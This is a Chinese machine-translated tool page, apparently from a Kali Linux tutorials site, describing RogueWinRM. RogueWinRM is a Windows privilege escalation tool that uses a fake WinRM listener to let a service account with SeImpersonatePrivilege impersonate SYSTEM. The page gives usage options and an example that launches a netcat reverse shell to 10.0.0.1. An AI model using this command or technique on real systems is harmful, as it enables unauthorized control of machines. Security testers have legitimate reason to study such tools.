


# RogueWinRM:从服务帐户到系统的 Windows 本地权限提升

> 原文：<https://kalilinuxtutorials.com/roguewinrm/>

**RogueWinRM** 是一个本地权限提升漏洞，如果 WinRM 服务没有运行，它允许从服务帐户(具有 SeImpersonatePrivilege)升级到本地系统帐户(**默认在 Win10 上，但在 Windows Server 2019** 上没有)。

简而言之，它将侦听端口 5985 上的传入连接，假装一个真正的 WinRM 服务。这只是一个最小的 web 服务器，它将尝试与任何试图连接到该端口的服务协商 NTLM 认证。
然后 BITS 服务(作为本地系统运行)被触发，它将尝试对我们的恶意监听器进行身份验证。一旦我们的恶意侦听器通过身份验证，我们就能够模拟本地系统用户，使用这些权限生成任意进程。

您可以在此链接找到关于此漏洞的完整技术描述->[https://decoder . cloud/2019/12/06/we-though-they-be-potato-but-they-be-beans/](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)

**用途**

**RogueWinRM

强制参数:
-p:程序启动

可选参数:
-a:要传递给程序的命令行参数(默认为空)
-l:监听端口(默认为 5985 WinRM)
-d:启用调试输出**

**例题**

*   运行交互式 cmd:

**RogueWinRM.exe-p C:\ windows \ system32 \ cmd . exe**

*   运行 netcat 反向 shell:

**RogueWinRM.exe-p C:\ windows \ temp \ nc64 . exe-a " 10 . 0 . 0 . 1 3001-e cmd "**

**信用**

*   安东尼奥·科科马齐
*   [Andrea Pierini](https://twitter.com/decoder_it)
*   罗伯托(0xea31)

[**Download**](https://github.com/antonioCoco/RogueWinRM)